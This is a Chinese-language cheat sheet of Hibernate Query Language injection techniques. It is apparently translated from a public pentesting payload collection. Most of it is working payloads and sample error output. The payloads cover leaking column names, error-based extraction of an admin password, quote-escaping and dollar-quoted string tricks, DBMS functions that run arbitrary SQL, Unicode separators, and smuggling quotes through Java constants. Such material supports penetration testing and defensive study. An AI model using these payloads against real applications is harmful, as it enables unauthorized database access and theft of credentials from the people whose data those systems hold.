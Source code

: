 # Hibernate查询语言注入

> Hibernate ORM（简称Hibernate）是Java编程语言的对象关系映射工具。它为将面向对象的领域模型映射到关系数据库提供了一个框架。- 维基百科

## 摘要

* [HQL注释](#hql-comments)
* [HQL列出列](#hql-list-columns)
* [基于错误的HQL](#hql-error-based)
* [单引号转义](#single-quote-escaping)
* [$-引用的字符串](#--quoted-strings)
* [DBMS魔术函数](#dbms-magic-functions)
* [Unicode](#unicode)
* [Java常量](#java-constants)
* [按DBMS划分的方法](#methods-by-dbms)
* [参考资料](#references)

:warning: 您的输入将始终位于百分号符号之间：`%INJECT_HERE%`

## HQL注释

```sql
HQL不支持注释
```

## HQL列出列

```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%' -- 
  and published = true
```

使用不存在的列将引发异常并泄露多个列名。

```sql
org.hibernate.exception.SQLGrammarException: 列 "DOESNT_EXIST" 未找到；SQL语句：
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

## 基于错误的HQL

```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

基于值转换的错误。

```sql
数据转换错误，转换 "d41d8cd98f00b204e9800998ecf8427e"；SQL语句：
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

:warning: **HQL不支持UNION查询**

## 单引号转义

该方法适用于MySQL DBMS，在字符串中使用反斜杠`\`转义单引号。

在HQL中，通过两个单引号`''`来转义字符串中的单引号。

```
'abc\''or 1=(select 1)--'
```

在HQL中是字符串，在MySQL中是字符串和额外的SQL表达式。

## $-引用的字符串

该方法适用于允许在SQL表达式中使用美元引用字符串的DBMS：PostgreSQL、H2。

Hibernate ORM允许标识符以`$$`开头。

```
$$='$$=concat(chr(61),chr(39)) and 1=1--'
```

## DBMS魔术函数

该方法适用于具有评估字符串参数中SQL表达式的魔术函数的DBMS：PostgreSQL、Oracle。

Hibernate允许在HQL表达式中指定任何函数名称。

PostgreSQL有内置函数`query_to_xml('任意SQL')`。

```
array_upper(xpath('row',query_to_xml('select 1 where 1337>1', true, false,'')),1)
```

Oracle有内置函数`DBMS_XMLGEN.getxml('SQL')`

```
NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 where 1337>1')),'1')!='1'
```

## Unicode

该方法适用于允许在SQL标记之间使用UNICODE分隔符（例如U+00A0）的DBMS：Microsoft SQL Server、H2。

在Microsoft SQL SERVER中`SELECT LEN([U+00A0](select[U+00A0](1)))`与`SELECT LEN((SELECT(1)))`的工作方式相同；

HQL允许在标识符（函数或参数名称）中使用UNICODE符号。

```
SELECT p FROM hqli.persistent.Post p where p.name='dummy' or 1<LEN( (select top 1 name from users)) or '1'='11'
```

## Java常量

该方法适用于大多数DBMS（MySQL除外）。

Hibernate在HQL查询中解析Java公共静态字段（Java常量）：

- 包含Java常量的类必须在类路径中
- 例如`java.lang.Character.SIZE`解析为16
- 字符串或字符常量另外用单引号括起来

要使用JAVA常量方法，我们需要在类路径上的类或接口中声明特殊字符或字符串字段。

```java
public class Constants {
    public static final String S_QUOTE = "'";
    public static final String HQL_PART = "select * from Post where name = '";
    public static final char C_QUOTE_1 = '\'';
    public static final char C_QUOTE_2 = '\047';
    public static final char C_QUOTE_3 = 39;
    public static final char C_QUOTE_4 = 0x27;
    public static final char C_QUOTE_5 = 047;
}
```

一些著名Java库中的可用常量：

```ps1
org.apache.batik.util.XMLConstants.XML_CHAR_APOS         [ Apache Batik ]
com.ibm.icu.impl.PatternTokenizer.SINGLE_QUOTE           [ ICU4J ]
jodd.util.StringPool.SINGLE_QUOTE                        [ Jodd ]
ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR      [ Logback ]
cz.vutbr.web.csskit.OutputUtil.STRING_OPENING            [ jStyleParser ]
com.sun.java.help.impl.DocPConst.QUOTE                   [ JavaHelp ]
org.eclipse.help.internal.webapp.utils.JSonHelper.QUOTE  [ EclipseHelp ]
```

```
dummy' and hqli.persistent.Constants.C_QUOTE_1*X('<>CHAR(41) and (select count(1) from sysibm.sysdummy1)>0 --')=1 and '1'='1
```

## 按DBMS分类的方法

![image](https://user-images.githubusercontent.com/16578570/163428666-a22105a8-287c-4997-8aef-8f372a1b86e9.png)

## 参考资料

* [HQL for pentesters - 2014年2月12日 - Philippe Arteau](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
* [如何在HQL（Hibernate查询语言）中添加注释？ - Thomas Bratt](https://stackoverflow.com/questions/3196975/how-to-put-a-comment-into-hql-hibernate-query-language)
* [HQL：疯狂查询语言 - 2015年4月6日 - Renaud Dubourguais](https://www.synacktiv.com/ressources/hql2sql_sstic_2015_en.pdf)
* [ORM2Pwn：利用Hibernate ORM中的注入 - 2015年11月26日 - Mikhail Egorov](https://www.slideshare.net/0ang3el/orm2pwn-exploiting-injections-in-hibernate-orm)
* [在Java应用程序中利用ORM注入的新方法 - HITBSecConf2016 - Mikhail Egorov - Sergey Soldatov](https://conference.hitb.org/hitbsecconf2016ams/materials/D2T2%20-%20Mikhail%20Egorov%20and%20Sergey%20Soldatov%20-%20New%20Methods%20for%20Exploiting%20ORM%20Injections%20in%20Java%20Applications.pdf)
* [在MySQL中利用HQL注入 - 2019年7月18日 - Olga Barinova](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hql-injection-exploitation-in-mysql/)

